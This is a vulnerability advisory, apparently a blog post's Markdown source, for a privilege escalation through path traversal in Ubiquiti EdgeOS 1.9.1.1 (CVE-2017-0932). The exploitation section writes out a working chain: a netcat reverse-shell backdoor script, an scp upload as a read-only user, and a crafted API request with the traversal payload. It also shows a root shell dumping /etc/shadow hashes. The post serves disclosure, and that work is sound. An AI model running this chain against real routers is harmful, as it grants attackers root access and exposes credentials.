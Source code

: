 ```yaml
---
layout: post
title:  "UBNT EdgeOS <= v1.9.1.1 Local Privilege Escalation"
date:   2018-03-05
categories: advisories
tags: embedded-devices hacking-embedded IoT-hacking ubnt cve
lang: en
ref: cve-2017-0932
---
```



UBNT EdgeOS version 1.9.1.1 and prior, consequence of the lack of validation on the input of the Feature functionality, an attacker with access to an operator (read-only) account and ssh connection to the devices, can escalate privileges to admin (root) access in the system.

- Vendor: Ubiquiti Networks
- Device: Edger Router X
- Affected Version: 1.9.1.1 and prior
- CVE-ID: CVE-2017-0932

### Details

The EdgeOS (firmware v1.9.1.1) is susceptible to a local privilege escalation due a Path Traversal vulnerability in the Feature API. This vulnerability allows an attacker with non-privileged access (read-only) to execute commands on the device with the root rights. The attack consists in sending a maliciously crafted file (using scp with a non-privileged account) to the device and then calling the vulnerable API exploiting the Path Traversal. The exploitation will result on the crafted file being executed with root permission, giving the attacker full access to the device.

### Exploitation

First of all, we have to create the following file+directory:

```
$ cat Backdoor/wizard-run
#!/bin/bash
/usr/bin/nc 192.168.2.2:1337 -e /bin/bash &
```


Using a non-privileged 'operator' user, it was possible to upload the file to the device using the scp command:

```
$ scp -r Backdoor operator@192.168.2.1:~
Welcome to EdgeOS

By logging in, accessing, or using the Ubiquiti product, you
acknowledge that you have read and understood the Ubiquiti
License Agreement (available in the Web UI at, by default,
http://192.168.1.1) and agree to be bound by its terms.

operator@192.168.2.1's password: 
wizard-run       
```

After that, using a valid operator session and a path traversal vulnerability, it was possible to call the uploaded file with root privilege:


```
POST /api/edge/feature.json HTTP/1.1
Host: 192.168.2.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:53.0) Gecko/20100101 Firefox/53.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Referer: https://192.168.2.1/
Content-Type: application/json
X-CSRF-TOKEN: 4310724fdcab5474ab225a105bd6f86d43247dbaf5b7f4aa2ec329a641ec55ec
X-Requested-With: XMLHttpRequest
Content-Length: 90
Cookie: ip_address_top_user_option=total_bytes; PHPSESSID=i6um09hej0ku2k5ctcp6ib56f1nrqhi7; X-CSRF-TOKEN=4310724fdcab5474ab225a105bd6f86d43247dbaf5b7f4aa2ec329a641ec55ec
Connection: close

{"data":{"scenario":"../../../../../home/operator/Backdoor","action":"load"}}
```


And a remote shell will be created:

```
$ nc -lvp 1337
Listening on [0.0.0.0] (family 0, port 1337)
Connection from 192.168.2.1 44440 received!
id
uid=0(root) gid=102(vyattacfg)
uname -a
Linux ubnt 3.10.14-UBNT #1 SMP Sat Apr 22 06:38:07 PDT 2017 mips GNU/Linux
cat /etc/shadow
root:!:17283:0:99999:7:::
daemon:*:17283:0:99999:7:::
bin:*:17283:0:99999:7:::
games:*:17283:0:99999:7:::
.. snip snip ..
avahi:*:17283:0:99999:7:::
sshd:*:17283:0:99999:7:::
tss:*:17283:0:99999:7:::
ubnt:$1$zKNoUbAo$gomzUbYvgyUMcD436Wo66.:16436:0:99999:7:::
operator:$6$7SVNi.WB68V0QR5t$efMoCyT2H.mEU6M8s2NDSsW1fv7JnT2eAfK2VxuzsIdcYrEvWCILX8G0CYN/4enwrnT1yYjekQa95TxxHxhVj.:16436:0:99999:7:::
```

### Recommendation

Upgrade the firmware to the last available version.

### References

- http://maycon.hacknroll.io/advisories/2018/03/05/CVE-2017-0932.html
- https://hackerone.com/reports/239719
- https://community.ubnt.com/t5/EdgeMAX-Updates-Blog/EdgeMAX-EdgeRouter-software-security-release-v1-9-7-hotfix-3/ba-p/2054117

